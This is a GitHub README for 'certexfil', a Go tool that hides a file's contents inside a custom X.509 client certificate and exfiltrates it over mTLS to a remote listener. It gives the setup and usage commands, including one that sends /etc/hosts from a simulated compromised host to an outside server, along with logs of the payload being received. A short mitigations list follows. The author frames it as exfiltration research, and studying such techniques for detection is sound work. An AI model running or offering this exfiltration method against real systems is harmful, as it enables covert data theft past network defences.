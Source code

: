 # Exfiltration fun using X509 digital certificates

## Overview

I spend a ton of time on exfiltration topics and mitigation techniques. This is my very first attempt to try to learn Go by having a quick way to convert a payload (reading a file) and building it as part as a custom x509 digital certificate.

If you are new to playing with certs, you will find below the following interesting links that inspired me (must read first):

* https://medium.com/sitewards/the-magic-of-tls-x509-and-mutual-authentication-explained-b2162dec4401
* https://venilnoronha.io/a-step-by-step-guide-to-mtls-in-go
* https://tools.ietf.org/html/draft-ietf-oauth-mtls-14

Certexfil has two components, a client and a listener:

* The client is used to bootstrap and set a CA to create certificates (and authenticate them later)
* The client is used also to embed a payload (file) into a new client certificate then use mTLS against a listener service
* A listener (remote) service which using a certificate is accepting valid mTLS clients

## Usage

### Create CA and prepare your listener

This is to create server_cert.pem and server_key.pem certificates to be used for mTLS (client and listener will use those:

```
somewhere$ certexfil.client -ca -ecdsa-curve P521
```

Now make sure your have binary certexfil.listener and the new ./CERTS directory on your remote server. Then, run the listener:

```
remoteserver$ ./certexfil.listener
```

### Client or (simulated) compromised host

In this example, lets try to exfiltrate our /etc/hosts file by generating a custom cert and establishing a mTLS connection to our remote listener:

```
host$ certexfil.client  -host x.io.net -payload /etc/hosts
2019/05/10 19:33:13 Reading from file..
2019/05/10 19:33:13 Payload  --> 127.0.0.1	...	(225 bytes)
2019/05/10 19:33:13 PayloadPrepared --> �...		(173 bytes)
2019/05/10 19:33:13 wrote cert
2019/05/10 19:33:13 wrote cert key
```

### Seen on the listener

```
remoteserver$ certexfil.listener 
2019/05/10 23:33:14 received:	H4sIAAAAAAAC/0TNMa7DIAwG4DmcwtKbH4IMqcQNunXoBQgxDaoDCJOmx69o08abP1v/r/uTVFJJ3VFylubEVXxMS91tIVYsy1pRiD+4zgg+EaUtxBtQiMhgC8KEHIodqV0LnC+PAZzNb2h5LIzR0Cbk4f9Xs28pj9bdhUeljFHHS8QqvD9wcZZrLujDs3nfMptbopgm5B37L5a0ViwsXgEAAP//pJPCNuEAAAA=
2019/05/10 23:33:14 PayloadRetrieved -->
127.0.0.1	localhost
127.0.1.1	wintermute

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
<--
```

## Mitigations

* Fresh certificates
* Large payload vs average certificates from same client (a decent firewall should be able to help)

## Todo

* Peer-review from a real Go developper.. I should stick to Python, I know.
* Set a DEBUG option, clean code
* merge client/listener in one
* automatic deployment of generated certs (DNS TXT? :P)
* Actually have crypto in cryptopayload module

## Contact

* @Sourcefrenchy
